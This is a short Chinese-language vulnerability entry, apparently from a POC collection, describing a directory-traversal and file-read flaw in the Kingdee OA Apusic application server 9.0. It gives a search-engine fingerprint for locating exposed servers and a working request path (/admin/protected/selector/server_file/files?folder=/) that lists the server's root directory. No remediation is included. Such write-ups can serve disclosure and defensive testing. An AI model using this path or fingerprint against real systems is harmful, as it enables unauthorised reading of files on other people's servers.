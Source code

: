 # 金蝶OA Apusic应用服务器(中间件) server_file 目录遍历漏洞

## 漏洞描述

金蝶OA Apusic应用服务器(中间件) 存在任意文件读取漏洞，攻击者通过漏洞可以获取目录下的文件信息

## 漏洞影响

<a-checkbox checked>金蝶OA 9.0 Apusic应用服务器(中间件) </a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="Apusic-公司产品" && title=="欢迎使用Apusic应用服务器"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1629466520262-6fed551f-2c99-4966-82df-a2c5550a216d.png)

验证POC

```bash
/admin/protected/selector/server_file/files?folder=/
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1629466554121-8f3d039e-9243-42c1-bd3e-65cdbba62569.png)